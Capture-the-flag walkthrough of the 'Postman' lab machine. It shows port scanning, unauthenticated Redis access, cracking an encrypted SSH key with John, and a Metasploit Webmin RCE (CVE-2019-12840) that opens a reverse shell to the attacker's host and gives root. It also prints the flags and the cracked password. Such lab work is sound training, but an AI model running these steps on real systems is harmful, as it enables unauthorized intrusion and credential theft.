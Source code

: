 # Postman

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.160

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Webmin
![webmin](./screenshots/webmin.png)

![webmin_login](./screenshots/webmin_login.png)

## Remote Redis Does Not Require Authentication
```
$ nc 10.10.10.160 6379
INFO
$2724
...
# Server
redis_version:4.0.9
...
```

## SSH Login via Authorized Key (Redis)
https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/

```
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
```

## Encrypted RSA Private Key #1 (Matt)
```
redis@Postman:/dev/shm$ ls -l /opt/id_rsa.bak
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```

```
redis@Postman:/dev/shm$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
...
-----END RSA PRIVATE KEY-----
```

### Cracked The RSA Password Using JohnRipper
```
john matt_id_rsa.john --wordlist=/usr/share/wordlists/rockyou
...
computer2008     (ssh/matt_id_rsa) 
```

## Privilege Escalation #1
Used the password of `SSH RSA private key` to login as `Matt` user.
```
redis@Postman:/opt$ su Matt
```

```
Matt@Postman:/opt$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
```

## The User Flag
```
Matt@Postman:~$ ls -l user.txt 
-rw-rw---- 1 Matt Matt 33 Apr  4 16:47 user.txt
```

```
Matt@Postman:~$ cat user.txt 
02505f44b4fbd37b91014930f2339824
```

## Encrypted RSA Private Key #2 (Matt)
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,4FC44D79F1BC0D141DB22CCB08108C44

O9bdxmDVMF8uvq6lHIN4Irz1aNQc56PBhYlnBu28FvDwG/CoXj47xuinWbrrpq5s
zWWtGo4wDI+Be4Z8Gb1DznUtpdjVdR34PjNyqh8EL9t5hUMSTvMIQFhy/byjGgKH
oDVh+MA7jMHHur8EoMiqeZq1hD1OXwA505Fr2riqNMtDqGNb82sIqTCeA8wlVQEE
FHeP0BfJn4gS2i4cPF2GBjpKUsh4s5urAPYfNinkfAv3Ugqnr9+8xWLJqDaTc9cG
HJ5VtOnt6gVeytkihRTyTDIl2kBMVvjWpzSus2ybjIHH+7FKpISme6VlH+ESL7d1
aWkH7rJjoi5tWO5MO0H1d5eXuyJFOpoqsW8jgegztKIYUYB6CIaTYa8Sc+Wr7XYn
...
```

### Cracked The RSA Password Using JohnRapper
```
john matt_2_id_rsa.john --fork=12 --wordlist=/usr/share/wordlists/rockyou.txt
...
computer2008     (matt_2_id_rsa)
...
```

## SimpleHTTPServer
```
redis@Postman:/var/www$ ls -l SimpleHTTPPutServer.py 
-rw-rw-r-- 1 Matt Matt 482 Aug 25  2019 SimpleHTTPPutServer.py
```

```python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

## Webmin Setup Output
```
redis@Postman:/$ ls -l webmin-setup.out 
-rw-r--r-- 1 root root 2086 Aug 25  2019 webmin-setup.out
```

```
Web server port (default 10000): Login name (default admin): Login password: ***********************************************************************
```

## Webmin Panel Login
Used the `password of RSA keys` and the username `Matt` to log in to Webmin panel.

```
Matt: computer2008
```

![webmin_panel](./screenshots/webmin_panel.png)

## Privileged RCE via Package Updates (Webmin)
In `Webmin` through `1.910`, any user authorized to the "Package Updates" module can execute arbitrary commands with `root privileges` via the data parameter to update.cgi.

https://nvd.nist.gov/vuln/detail/CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/?q=CVE-2019-12840

https://www.exploit-db.com/exploits/46984

```
msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set payload cmd/unix/reverse_python 
payload => cmd/unix/reverse_python
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => 10.10.14.33
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts postman
rhosts => postman
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[+] Session cookie: 27e85b836d61b08515e38ad8c16fa1f9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.33:4444 -> 10.10.10.160:47404) at 2021-04-05 17:02:18 +0300
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > sessions -i 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
ls -l /root/
total 8
drwxrwxr-x 6 root root 4096 Oct  2  2019 redis-5.0.0
-rw-r--r-- 1 root root   33 Apr  4 16:47 root.txt
```

```
cat /root/root.txt
d8d9bff3c8d306e00c163fd192338562
```
